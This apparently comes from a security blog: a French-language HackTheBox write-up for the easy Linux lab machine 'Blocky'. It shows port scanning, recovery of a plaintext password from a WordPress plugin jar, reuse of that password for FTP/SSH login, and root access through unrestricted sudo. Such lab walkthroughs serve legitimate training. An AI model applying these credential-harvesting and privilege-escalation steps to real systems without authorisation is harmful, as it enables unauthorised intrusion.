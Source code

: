 ```yaml
---
title: HTB | Blocky
description: Blocky is fairly simple overall, and was based on a real-world machine. It demonstrates the risks of bad password practices as well as exposing internal files on a public facing system. On top of this, it exposes a massive potential attack vector, Minecraft. Tens of thousands of servers exist that are publicly accessible, with the vast majority being set up and configured by young and inexperienced system administrators.
slug: blocky-htb
date: 2025-03-10 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Blocky cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Blocky</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.10.37</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Users
```bash
notch : 8YsqfCTnvxAUeduzjNSXe22
```

## Enumeration

### nmap
```bash
┌──(kali㉿kali)-[~/htb/Blocky]
└─$ nmap -sC -sV -An -T4 -vvv -p- 10.10.10.37
PORT      STATE  SERVICE   REASON         VERSION
21/tcp    open   ftp       syn-ack ttl 63 ProFTPD 1.3.5a
22/tcp    open   ssh       syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqVh031OUgTdcXsDwffHKL6T9f1GfJ1/x/b/dywX42sDZ5m1Hz46bKmbnWa0YD3LSRkStJDtyNXptzmEp31Fs2DUndVKui3LCcyKXY6FSVWp9ZDBzlW3aY8qa+y339OS3gp3aq277zYDnnA62U7rIltYp91u5VPBKi3DITVaSgzA8mcpHRr30e3cEGaLCxty58U2/lyCnx3I0Lh5rEbipQ1G7Cr6NMgmGtW6LrlJRQiWA1OK2/tDZbLhwtkjB82pjI/0T2gpA/vlZJH0elbMXW40Et6bOs2oK/V2bVozpoRyoQuts8zcRmCViVs8B3p7T1Qh/Z+7Ki91vgicfy4fl
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNgEpgEZGGbtm5suOAio9ut2hOQYLN39Uhni8i4E/Wdir1gHxDCLMoNPQXDOnEUO1QQVbioUUMgFRAXYLhilNF8=
|   256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILqVrP5vDD4MdQ2v3ozqDPxG1XXZOp5VPpVsFUROL6Vj
80/tcp    open   http      syn-ack ttl 63 Apache httpd 2.4.18
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp  closed sophos    reset ttl 63
25565/tcp open   minecraft syn-ack ttl 63 Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
```

## Foothold

### Wordpress website : jar files
Sur le port 80, on trouve un **wordpress** avec un endpoint **/plugins**.
En effectuant une requête GET vers cette page, on trouve 2 fichiers dont **BlockyCore.jar** contenant le mot de passe suivant : `8YsqfCTnvxAUeduzjNSXe22`
```bash
┌──(kali㉿kali)-[~/htb/Blocky]
└─$ strings com/myfirstplugin/BlockyCore.class 
com/myfirstplugin/BlockyCore
java/lang/Object
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
LocalVariableTable
...
```

### FTP/SSH notch
On trouve le user notch sur la page principale du wordpress. On l'utilise pour se connecter en ftp, avec le mot de passe trouvé précédemmente et ça fonctionne :
```bash
┌──(kali㉿kali)-[~/htb/Blocky]
└─$ ftp 10.10.10.37                     
Connected to 10.10.10.37.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (10.10.10.37:kali): notch
331 Password required for notch
Password: 
230 User notch logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls 
229 Entering Extended Passive Mode (|||25323|)
150 Opening ASCII mode data connection for file list
drwxrwxr-x   7 notch    notch        4096 Jul  3  2017 minecraft
-r--------   1 notch    notch          33 Mar 10 09:54 user.txt
226 Transfer complete
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||28224|)
150 Opening BINARY mode data connection for user.txt (33 bytes)
100% |*********************************************************************************************************************************************************************************************|    33      315.94 KiB/s    00:00 ETA
226 Transfer complete
33 bytes received in 00:00 (1.75 KiB/s)
ftp> ^D
221 Goodbye.
                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~/htb/Blocky]
└─$ cat user.txt            
28f5.....2047
```
On peut également se connecte en SSH.

## Privilege Escalation

### notch -> root
L'utilisateur notch à le droit d'effectuer n'importe quelle commande en tant que root. Il nous suffit donc d'ouvrir un shell avec `sudo su` pour obtenir les droits root sur la machine.
```bash
┌──(kali㉿kali)-[~/htb/Blocky]
└─$ ssh notch@10.10.10.37
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# cat /root/root.txt
dc80.....2689
```